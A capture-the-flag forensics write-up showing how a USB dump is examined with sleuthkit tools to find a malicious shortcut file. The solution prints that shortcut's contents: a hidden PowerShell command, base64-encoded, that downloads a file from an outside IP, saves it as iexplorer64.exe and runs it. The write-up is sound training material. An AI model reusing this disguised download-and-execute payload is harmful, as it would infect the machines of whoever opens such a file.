

# Where all problems start 1
#### forensics - [HeroCTF](../main.md)

## Challenge description:
> For a change of pace, a company has been attacked again... Nevertheless, the means used here is quite original, indeed, it would be apparently a food delivery man who would be at the origin of the initial compromise... For your first analysis, you will have to found what the USB key that the delivery man put in the computer contains.
>
> Could you provide us the malicious URL used to download something ?
>
> Download file: [dump.7z](../assets/dump.7z)

## Solution 
After we unzip the file, we can see what it is with the `file` command.
```
$ file usb.dump
usb.dump: DOS/MBR boot sector, code offset 0x58+2, OEM-ID "mkfs.fat", sectors/cluster 8, Media descriptor 0xf8, sectors/track 62, heads 124, hidden sectors 32, sectors 7831282 (volumes > 32 MB), FAT (32 bit), sectors/FAT 7640, reserved 0x1, serial number 0x9c286c52, unlabeled
```
We can use the `fls` command (part of sleuthkit) to see the files inside. This is useful as it also shows deleted commands, denoted by an `*`.
```
$ fls usb.dump
r/r * 5:        Important_Document.lnk
r/r 7:  README.txt
v/v 125055523:  $MBR
v/v 125055524:  $FAT1
v/v 125055525:  $FAT2
V/V 125055526:  $OrphanFiles
```
The `Important_Document.lnk` file seems interesting, and we can use the `icat` command to extract it from the dump.
```
$ icat usb.dump 5 > Important_Document.lnk
$ cat Important_Document.lnk
v1.0l2�FS�k powershell.exeNerShe�FS�k�T8�.N�xz?powershell.exeh-g�v��C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe<..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe�-Nop -sta -noni -w hidden -encodedCommand YwBkACAAQwA6AFwAVQBzAGUAcgBzAFwAVwBvAHIAdAB5AFwAQQBwAHAARABhAHQAYQBcAEwAbwBjAGEAbABcAFQAZQBtAHAAXAAgADsAIABJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAIgBoAHQAdABwADoALwAvADEANAA2AC4ANQA5AC4AMQA1ADYALgA4ADIALwBpAG0AZwAuAHAAbgBnACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAGkAZQB4AHAAbABvAHIAZQByADYANAAuAGUAeABlACIAIAA7ACAALgBcAGkAZQB4AHAAbABvAHIAZQByADYANAAuAGUAeABlAA==0C:\Programmes\Windows NT\Accessories\wordpad.exe�%SystemDrive%\Programmes\Windows NT\Accessories\wordpad.exe%SystemDrive%\Programmes\Windows NT\Accessories\wordpad.exe�%�
                                                              �wN���]N�D.��Q���`�Xdesktop-ji20hrm0gF&_zE���]���R�e����^
                                                                                                                       )M&�0gF&_zE���]���R�e����^
                                                                                                                                                 )M&��	��1SPS�XF�L8C���&�m�q/S-1-5-21-1162904530-3654154924-4196022673-100091SPS�mD��pH�H@.�=x�hH�<���A��7v��)
```
While it isn't completely in plaintext, there is an encoded command in PowerShell. We can use Cyberchef to decode it.



The requested URL is our flag :)
<details> 
    <summary>Flag</summary>
Hero{http://146.59.156.82/img.png}
</details>